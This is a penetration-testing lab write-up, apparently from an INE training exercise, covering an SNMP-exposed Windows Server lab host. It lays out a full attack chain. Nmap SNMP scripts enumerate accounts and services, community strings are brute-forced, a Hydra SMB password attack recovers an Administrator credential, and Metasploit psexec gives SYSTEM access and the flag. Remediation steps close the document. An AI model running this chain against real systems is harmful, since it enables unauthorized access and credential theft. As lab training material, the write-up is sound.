# SNMP Analysis

**Classification:** Host & Network Penetration Testing / Network-Based Attacks<br>
**Target:** demo.ine.local (10.2.17.74) — Windows Server 2019 (Build 17763)<br>
**Objective:** Exploit the target to gain a shell and find the flag.

## 1. Executive Summary

The target exposes **SNMPv1** on UDP/161 with the default `public` community string. Using
Nmap's SNMP NSE scripts we enumerate interfaces, Windows users, services, processes and
network connections. `snmp-brute` confirms weak community strings, and the enumerated user
list feeds a Hydra brute-force that recovers the Administrator password. Metasploit's
`psexec` then provides a `NT AUTHORITY\SYSTEM` Meterpreter session and the flag.

## 2. Recon

Confirming connectivity.

```bash
ping -c 4 demo.ine.local      # 10.2.17.74
```



Scanning the SNMP UDP ports — 161 is open, SNMPv1 with community `public`.

```bash
nmap -sV -sU -p 161,162 10.2.17.74
```



## 3. SNMP Enumeration (NSE)

Running the SNMP scripts with `-sC`-style NSE scripts to pull host information.

```bash
nmap -sU -sV -p161 --script snmp-interfaces 10.2.17.74
```



`snmp-win32-services` lists the installed Windows services.





`snmp-win32-users` enumerates local accounts, including `Administrator` and `admin`.



`snmp-sysdescr` identifies the OS as Windows Version 6.3 (Build 17763).



`snmp-netstat` shows active network connections.



`snmp-processes` reveals the full running process list.



## 4. Community-String Brute-Force

`snmp-brute` confirms multiple valid community strings (`public`, `private`, `secret`).

```bash
nmap -sU -p161 --script=snmp-brute 10.2.17.74
```



Dumping every SNMP script result into one file for reference.

```bash
nmap -sU -sV -p161 --script snmp-* 10.2.17.74 > Desktop/snmp_info
```


## 5. Credential Brute-Force

Using the enumerated `Administrator` account with Hydra against SMB.

```bash
hydra -l Administrator -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.2.17.74 smb
```

The password is recovered: `Administrator:elizabeth`.



## 6. Exploitation (psexec → SYSTEM)

```bash
use exploit/windows/smb/psexec
set RHOSTS 10.2.17.74
set SMBUser administrator
set SMBPass elizabeth
exploit
```



## 7. Capturing the Flag

Migrating to `explorer.exe`, then reading the flag from `C:\`.

```bash
pgrep explorer
migrate 4192
shell
cd C:\
dir
type FLAG1.txt
```

```
FLAG1.txt: a8f5f167f44f4964e6c998dee827110c
```



## 8. Remediation Recommendations

1. **Change or disable default SNMP community strings** (`public`/`private`/`secret`) and
   migrate to **SNMPv3** with authentication and encryption.
2. **Restrict SNMP** to trusted management hosts via ACLs/firewall and disable it where not
   required — it leaked users, services and processes pre-auth.
3. **Enforce strong passwords** and account lockout — the Administrator password fell to a
   tiny wordlist.
4. **Restrict SMB admin access** and monitor for `psexec`-style service creation.
